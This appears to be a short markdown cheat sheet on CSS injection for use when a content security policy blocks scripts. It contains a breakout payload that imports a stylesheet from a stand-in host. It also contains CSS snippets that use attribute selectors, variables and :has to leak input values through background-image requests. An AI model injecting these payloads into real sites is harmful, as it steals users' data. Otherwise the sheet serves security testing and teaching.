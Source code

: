 ----------------

## CSS Injection

----------------

- THis method is used in a situation where CSP blocks inline javascript and only style tags are allowed.Test it by using an import rule to Burp collaboarator.

```
"><style>@import'//host.com'</style>
```

- Triggering requests with CSS variables
  -  Use css variables as a on/off switch that triggers a conditional request  with background images. As long as your variable is defined with a url() and a fallback that is a valid CSS property value (i.e. "none" for a background image) then you can use this variable to trigger a request by setting the variable:

```html
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```

- Extracting data with CSS(Using attribute selectors):Attribute selectors are an extremely powerful way to extract data. You can use them to check if attributes begin, end or even contain certain characters. Regex usage(Ends with 'a')-:
  
```css
input[value$="a"] {
   --value: url(/collectData?value=1337)
}
input {
   background:var(--value,none);
}
```

- Starts with-:

```css
input[value^="z"]{
    color: red;
}
```

- We need to combine attribute selectors with background images and  css variables to exfiltrate data.A variable is defined with the fallback set to none.

```css
input[value$=a] {
 --start-with-a: url(/collectData?data=a);
}
input {
  background:var(--start-with-a,none);
}

```
----------------

### Abusing the has selector to exfiltrate the child nodes

-----------------

- You can combine attribute selectors with the :has selector. This enables you to make a background request even if the element in question doesn't allow it such as a hidden input.The advantage of the :has selector is that removes the need for this and, in addition, because you don't need to know what element appears next, you can more easily exfiltrate unknown page structures:

```css
div:has(input[value="1337"]) {
  background:url(/collectData?value=1337);
}
```

----------------

### :has selector

-----------------

- 

----------------

